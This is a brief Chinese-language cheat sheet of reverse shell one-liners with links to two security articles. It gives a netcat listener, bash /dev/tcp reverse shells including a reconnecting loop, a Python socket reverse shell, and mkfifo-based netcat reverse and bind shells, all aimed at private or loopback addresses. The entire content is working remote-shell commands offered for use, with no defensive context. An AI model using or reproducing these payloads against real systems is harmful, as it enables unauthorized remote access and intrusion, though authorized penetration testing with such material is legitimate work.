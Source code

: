 

---



nc做反弹shell
https://xz.aliyun.com/t/2549
https://www.freebuf.com/articles/system/10632.html

用这个接住：

```
$ nc -l -p 2333 -vvv
```

## Bash



```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

反复连接：

```
$ while true; do bash -i >& /dev/tcp/127.0.0.1/2333 0>&1; sleep 10; done
```

## Python

```
$ python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## NC

```
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc 10.0.0.1 2333 >/tmp/f

# 正向
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc -l -p 2333 >/tmp/f
```
